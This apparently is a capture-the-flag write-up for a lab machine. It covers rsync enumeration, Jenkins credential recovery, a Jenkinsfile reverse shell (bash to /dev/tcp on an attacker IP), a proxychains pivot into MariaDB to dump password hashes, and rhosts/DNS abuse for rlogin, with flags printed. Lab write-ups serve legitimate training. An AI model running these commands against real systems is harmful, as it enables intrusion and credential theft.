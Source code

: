 
**Scan** : 

```sh
22/tcp   open     ssh             OpenSSH 8.9p1 Ubuntu 3ubuntu0.7 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   256 472173e26b96cdf91311af40c84dd67f (ECDSA)
|_  256 2b5ebaf372d3b309df25412909f47bf5 (ED25519)
53/tcp   open     domain          PowerDNS
| dns-nsid:
|   NSID: pdns (70646e73)
|_  id.server: pdns
512/tcp  open     exec            netkit-rsh rexecd
513/tcp  open     login?
514/tcp  open     shell           Netkit rshd
873/tcp  open     rsync           (protocol version 31)
3000/tcp open     ppp?
| fingerprint-strings:
|   GenericLines, Help, RTSPRequest:
|     HTTP/1.1 400 Bad Request
|     Content-Type: text/plain; charset=utf-8
|     Connection: close
|     Request
|   GetRequest:
|     HTTP/1.0 200 OK
|     Cache-Control: max-age=0, private, must-revalidate, no-transform
|     Content-Type: text/html; charset=utf-8
|     Set-Cookie: i_like_gitea=403cb3e3906068db; Path=/; HttpOnly; SameSite=Lax
|     Set-Cookie: _csrf=GYHXs7TQdbOzsKcKny30oR8By-Q6MTcyMTI0MjAwODM2MTMwNzAzNg; Path=/; Max-Age=86400; HttpOnly; SameSite=Lax
|     X-Frame-Options: SAMEORIGIN
|     Date: Wed, 17 Jul 2024 18:46:48 GMT
|     <!DOCTYPE html>
|     <html lang="en-US" class="theme-auto">
|     <head>
|     <meta name="viewport" content="width=device-width, initial-scale=1">
|     <title>Gitea: Git with a cup of tea</title>
|     <link rel="manifest" href="data:application/json;base64,eyJuYW1lIjoiR2l0ZWE6IEdpdCB3aXRoIGEgY3VwIG9mIHRlYSIsInNob3J0X25hbWUiOiJHaXRlYTogR2l0IHdpdGggYSBjdXAgb2YgdGVhIiwic3RhcnRfdXJsIjoiaHR0cDovL2J1aWxkLnZsOjMwMDAvIiwiaWNvbnMiOlt7InNyYyI6Imh0dHA6Ly9idWlsZC52bDozMDAwL2Fzc2V0cy9pbWcvbG9nby5wbmciLCJ0eXBlIjoiaW1hZ2UvcG5nIiwic2l6ZXMiOiI1MTJ
|   HTTPOptions:
|     HTTP/1.0 405 Method Not Allowed
|     Allow: HEAD
|     Allow: GET
|     Cache-Control: max-age=0, private, must-revalidate, no-transform
|     Set-Cookie: i_like_gitea=a275bfd19692210f; Path=/; HttpOnly; SameSite=Lax
|     Set-Cookie: _csrf=7aCFYOoWpGjTrCHOLcNbUFcmXws6MTcyMTI0MjAxMzU0Mjg2OTg2Nw; Path=/; Max-Age=86400; HttpOnly; SameSite=Lax
|     X-Frame-Options: SAMEORIGIN
|     Date: Wed, 17 Jul 2024 18:46:53 GMT
|_    Content-Length: 0
3306/tcp filtered mysql
8081/tcp filtered blackice-icecap


```

Enumerating shared folder: 

```sh
nmap -sV --script "rsync-list-modules" -p 873 $target
```

Or

```sh
nc -vn $target 873
(UNKNOWN) [127.0.0.1] 873 (rsync) open
@RSYNCD: 31.0        <--- You receive this banner with the version from the server
@RSYNCD: 31.0        <--- Then you send the same info
#list                <--- Then you ask the sever to list
```

Download File : 

```sh
rsync -av rsync://10.10.71.22/backups/jenkins.tar.gz .
```

Interesting file in Users/Admin_/config.xml: 

```sh
<hudson.security.HudsonPrivateSecurityRealm_-Details><passwordHash>#jbcrypt:$2a$10$PaXdGyit8MLC9CEPjgw15.6x0GOIZNAk2gYUTdaOB6NN/9CPcvYrG
</passwordHash>
</hudson.security.HudsonPrivateSecurityRealm_-Details>
```

Password cracking : 
```sh
hashcat -a 0 -m 3200 hash /usr/share/wordlists/rockyou.txt
```
too long ... 

SO i used a tool : 
```sh

/go/bin❯ ./go-decrypt-jenkins -d ../../Downloads/jenkins_configuration/
Searching for files in ../../Downloads/jenkins_configuration/
id: e4048737-7acd-46fd-86ef-a3db45683d4f
username: buildadm
password: Git1234!
usernameSecret: false

id: admin
name: admin
passwordHash: #jbcrypt:$2a$10$PaXdGyit8MLC9CEPjgw15.6x0GOIZNAk2gYUTdaOB6NN/9CPcvYrG
```

- Then modify the Jenkinsfile  and the add a reverse shell : 
```sh
pipeline {
    agent any

    stages {
        stage('Pwned') {
            steps {
                sh '''
                    bash -c 'bash -i >& /dev/tcp/10.8.3.12/4242 0>&1'
                '''
            }
        }
    }
}
```

- Then got the flag in /root/user.txt:
```flag
VL{bf760d7c76f89f4e07bf4d461ee1c3c2}
```

- If we remember we got two filtered ports : `3306 & 8081` . So we going to do a proxychains to access to them because of the firewall .
```sh
export TERM=xterm-256color
```

- Access to MariaDB and list content : 
```sh
proxychains -q mysql -h 10.10.125.92 -u root -P 3306
SHOW DATABASE;
SHOW tables from powerdnsadmin;
SHOW columns FROM powerdnsadmin.user;
SELECT * FROM powerdnsadmin.user;
```

- Got some credential : 
```sh
1 | admin    | $2b$12$s1hK0o7YNkJGfu5poWx.0u1WLqKQIgJOXWjjXz7Ze3Uw5Sc2.hsEq | 

winston
```
- More information : 
![[Build_lab.png]]

- We found Rhosts file with intern and admin so we add them to the powerDNSadmin
with our ip address: 
![[Build_lab2.png]]

- Then we can connect with rlogin : 
```sh
VL{fef779871842b0975faac0a289181ab2}
```

